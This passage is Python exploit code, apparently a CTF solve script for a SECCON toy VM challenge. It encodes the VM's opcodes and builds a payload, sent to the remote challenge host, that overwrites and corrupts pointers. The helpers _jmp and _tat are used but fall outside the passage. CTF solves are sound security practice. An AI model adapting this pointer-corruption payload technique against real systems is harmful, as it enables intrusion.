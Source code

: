 ```py
    return p16((0x6 << 12) | (addr & 0xfff))

def _ill():
    return p16((0x7 << 12))

def _and(addr):
    return p16((0x8 << 12) | (addr & 0xfff))

def _ldc(addr):
    return p16((0x9 << 12) | (addr & 0xfff))

def _bcc(addr):
    return p16((0xa << 12) | (addr & 0xfff))

def _bne(addr):
    return p16((0xb << 12) | (addr & 0xfff))

def _ldi():
    return p16((0xc << 12))

def _stt():
    return p16((0xd << 12))

def _lda(addr):
    return p16((0xe << 12) | (addr & 0xfff))

def _sta(addr):
    return p16((0xf << 12) | (addr & 0xfff))


p = remote("toy-2.seccon.games", 5000)

######################## overwrite ptr 

payload = b""
payload += _jmp(0x2)
payload += p16(0x8)
# user data
payload += p16((1 << 12) - 1)
payload += b"A\xd8"
#
payload += _lda(0x6) # 0x8
payload += _tat()
payload += _lda(0x4)
payload += _stt()

######################## padding and jump after move backward

payload += _tat()*11
payload += _jmp(0x30) # 0x2e
payload += p16(0x50)
payload += _tat()*3

######################## set length and corrupt ptr

payload += _jmp(0x12)
payload += p16(0x1c)
# user data
payload += p16(0xfe8) # 0x14
payload += p16(0x8000) # 0x16
payload += p16(0xfdf) # 0x18
payload += b"A\xb0" # 0x1a
#
```